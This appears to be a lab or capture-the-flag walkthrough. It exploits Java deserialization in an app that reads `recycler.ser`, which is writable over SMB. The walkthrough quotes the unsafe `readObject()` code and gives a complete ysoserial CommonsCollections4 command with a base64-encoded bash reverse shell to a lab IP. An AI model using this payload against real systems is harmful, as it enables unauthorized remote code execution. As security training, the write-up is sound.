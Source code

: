 **Check function**

![[Pasted image 20230205163232.png]]

**Save function**

![[Pasted image 20230205163247.png]]

We realised that this app is reading input from `/home/samantha/backups/recycler.ser` with the "check" button and writing output to `recycler.ser` with the "save" button.

To confirm that the file that we have SMB access to is written when we click on the "save" button we login with SMBClient to view the file. `recycler.ser` has been altered.

![[Pasted image 20230205163447.png]]

We check what `.ser` file is and as can be seen below, .SER files are used to store serialized objects. 

![[Pasted image 20230205163728.png]]

```java
try {
     fis = new FileInputStream(filename);
     in  = new ObjectInputStream(fis);
     r   = (Recycler) in.readObject();
     in.close();
     } 
catch (Exception ex) {
     ex.printStackTrace();
}
```

From the code above, we see that there is no sanitization of serialized object. `recycler.ser` file is passed as a file name into `fis` File object which is then passed as an input object `in` which is then passed as a serialised object `r` by the [`readObject()` function](https://portswigger.net/web-security/deserialization/exploiting) which is vulnerable.

We use [ysoserial](https://github.com/frohoff/ysoserial) together with a [hacktricks cheatsheet](https://book.hacktricks.xyz/pentesting-web/deserialization#ysoserial) to generate the payload. (Java 16 and 17 will have issues running ysoserial) 

Base64 encoded bash reverse shell payload.

![[Pasted image 20230205172338.png]]

```bash
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjEyNy80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}" > recycler.ser
```

With smbclient we modified the original `recycler.ser` using the `PUT` command.

![[Pasted image 20230205172654.png]]

We click on check status and we get the reverse shell with user privilege .
